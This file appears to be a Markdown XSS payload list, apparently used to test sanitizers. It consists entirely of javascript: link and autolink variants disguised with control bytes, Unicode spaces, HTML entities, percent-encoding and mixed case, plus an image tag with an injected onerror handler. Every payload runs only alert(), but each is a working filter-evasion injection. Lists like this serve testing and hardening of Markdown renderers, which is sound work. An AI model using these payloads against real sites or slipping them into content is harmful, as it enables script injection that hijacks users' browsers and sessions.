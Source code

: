 [Click me](javascript:alert('XSS'))

[Click me](java%0Ascript:alert("XSS"))

[link](java&NewLine;script:alert(document.location))

<javascript:alert("XSS")>

![Inline image](data:image/gif;base64,R0lGODlhEAAQAMQAAORHHOVSKudfOulrSOp3WOyDZu6QdvCchPGolfO0o/XBs/fNwfjZ0frl3/zy7////wAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACH5BAkAABAALAAAAAAQABAAAAVVICSOZGlCQAosJ6mu7fiyZeKqNKToQGDsM8hBADgUXoGAiqhSvp5QAnQKGIgUhwFUYLCVDFCrKUE1lBavAViFIDlTImbKC5Gm2hB0SlBCBMQiB0UjIQA7)

![Inline image](xx" onerror="javascript:alert(1))

<javas\x00cript:javascript:alert(1)>

<javas\x01cript:javascript:alert(1)>

<javas\x02cript:javascript:alert(1)>

<javas\x03cript:javascript:alert(1)>

<javas\x04cript:javascript:alert(1)>

<javas\x05cript:javascript:alert(1)>

<javas\x06cript:javascript:alert(1)>

<javas\x07cript:javascript:alert(1)>

<javas\x08cript:javascript:alert(1)>

javas\x09cript:javascript:alert(1)>

<javas\x0Acript:javascript:alert(1)>

<javas\x0Bcript:javascript:alert(1)>

<javas\x0Ccript:javascript:alert(1)>

<javas\x0Dcript:javascript:alert(1)>

<javascript\x3Ajavascript:alert(1)>

<\x0Bjavascript:javascript:alert(1)>

<\x0Fjavascript:javascript:alert(1)>

<\xC2\xA0javascript:javascript:alert(1)>

<\x05javascript:javascript:alert(1)>

<\xE1\xA0\x8Ejavascript:javascript:alert(1)>

<\x18javascript:javascript:alert(1)>

<\x11javascript:javascript:alert(1)>

<\xE2\x80\x88javascript:javascript:alert(1)>

<\xE2\x80\x89javascript:javascript:alert(1)>

<\xE2\x80\x80javascript:javascript:alert(1)>

<\x17javascript:javascript:alert(1)>

<\x03javascript:javascript:alert(1)>

<\x0Ejavascript:javascript:alert(1)>

<\x1Ajavascript:javascript:alert(1)>

<\x00javascript:javascript:alert(1)>

<\x10javascript:javascript:alert(1)>

<\xE2\x80\x82javascript:javascript:alert(1)>

<\x20javascript:javascript:alert(1)>

<\x13javascript:javascript:alert(1)>

<\x09javascript:javascript:alert(1)>

<\xE2\x80\x8Ajavascript:javascript:alert(1)>

<\x14javascript:javascript:alert(1)>

<\x19javascript:javascript:alert(1)>

<\xE2\x80\xAFjavascript:javascript:alert(1)>

<\x1Fjavascript:javascript:alert(1)>

<\xE2\x80\x81javascript:javascript:alert(1)>

<\x1Djavascript:javascript:alert(1)>

<\xE2\x80\x87javascript:javascript:alert(1)>

<\x07javascript:javascript:alert(1)>

<\xE1\x9A\x80javascript:javascript:alert(1)>

<\xE2\x80\x83javascript:javascript:alert(1)>

<\x04javascript:javascript:alert(1)>

<\x01javascript:javascript:alert(1)>

<\x08javascript:javascript:alert(1)>

<\xE2\x80\x84javascript:javascript:alert(1)>

<\xE2\x80\x86javascript:javascript:alert(1)>

<\xE3\x80\x80javascript:javascript:alert(1)>

<\x12javascript:javascript:alert(1)>

<\x0Djavascript:javascript:alert(1)>

<\x0Ajavascript:javascript:alert(1)>

<\x0Cjavascript:javascript:alert(1)>

<\x15javascript:javascript:alert(1)>

<\xE2\x80\xA8javascript:javascript:alert(1)>

<\x16javascript:javascript:alert(1)>

<\x02javascript:javascript:alert(1)>

<\x1Bjavascript:javascript:alert(1)>

<\x06javascript:javascript:alert(1)>

<\xE2\x80\xA9javascript:javascript:alert(1)>

<\xE2\x80\x85javascript:javascript:alert(1)>

<\x1Ejavascript:javascript:alert(1)>

<\xE2\x81\x9Fjavascript:javascript:alert(1)>

<\x1Cjavascript:javascript:alert(1)>

<javascript\x00:javascript:alert(1)>

<javascript\x3A:javascript:alert(1)>

<javascript\x09:javascript:alert(1)>

<javascript\x0D:javascript:alert(1)>

<javascript\x0A:javascript:alert(1)>

<java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>

<jav&#65ascript:javascript:alert(1)>

<jav&#97ascript:javascript:alert(1)>

<jAvAsCrIpT:alert(1)>

[XSS](javascript:alert%28&#039;XSS&#039;%29)

[XSS](javascript&colon;alert%28&#039;XSS&#039;%29)

[XSS](javascript&amp;colon;alert%28&#039;XSS&#039;%29)
